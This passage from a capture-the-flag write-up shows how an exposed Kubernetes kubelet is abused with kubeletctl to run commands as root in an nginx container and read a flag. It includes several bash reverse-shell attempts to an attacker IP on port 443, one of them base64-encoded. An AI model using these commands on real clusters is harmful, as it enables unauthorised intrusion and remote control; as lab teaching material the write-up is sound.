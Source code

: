 ### exec

With access to the kubelet service, I can also run commands on the containers. I’ll use the `exec` command in `kubeletctl`, giving both the name of the pod (nginx) and the name of the container (nginx):

```

oxdf@hacky$ kubeletctl -s 10.10.11.133 exec "id" -p nginx -c nginx
uid=0(root) gid=0(root) groups=0(root)

```

As root, I can read the `user.txt` in the `/root` directory:

```

oxdf@hacky$ kubeletctl -s 10.10.11.133 exec "ls /root" -p nginx -c nginx
user.txt
oxdf@hacky$ kubeletctl -s 10.10.11.133 exec "cat /root/user.txt" -p nginx -c nginx
e73f21f6************************

```

### Rev Fails

I tried a handful of things to get the container to connect back to me. It does have `bash`:

```

oxdf@hacky$ kubeletctl -s 10.10.11.133 exec "which bash" -p nginx -c nginx
/bin/bash

```

But it won’t do a `bash` reverse shell:

```

oxdf@hacky$ kubeletctl -s 10.10.11.133 exec "bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1'" -p nginx -c nginx
-i: -c: line 0: unexpected EOF while looking for matching `''
-i: -c: line 1: syntax error: unexpected end of file
command terminated with exit code 1
oxdf@hacky$ kubeletctl -s 10.10.11.133 exec 'bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"' -p nginx -c nginx
-i: -c: line 0: unexpected EOF while looking for matching `"'
-i: -c: line 1: syntax error: unexpected end of file
command terminated with exit code 1

```

Thinking it might be bad characters, I tried encoded the reverse shell:

```

oxdf@hacky$ echo "bash -i >& /dev/tcp/10.10.14.6/443 0>&1" | base64 -w0
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42LzQ0MyAwPiYxCg==
oxdf@hacky$ kubeletctl -s 10.10.11.133 exec 'echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42LzQ0MyAwPiYxCg==" | base64 -d | bash' -p nginx -c nginx
"YmFzaCAtaSA JiAvZGV2L3RjcC8xMC4xMC4xNC42LzQ0MyAwPiYxCg==" | base64 -d | bash

```
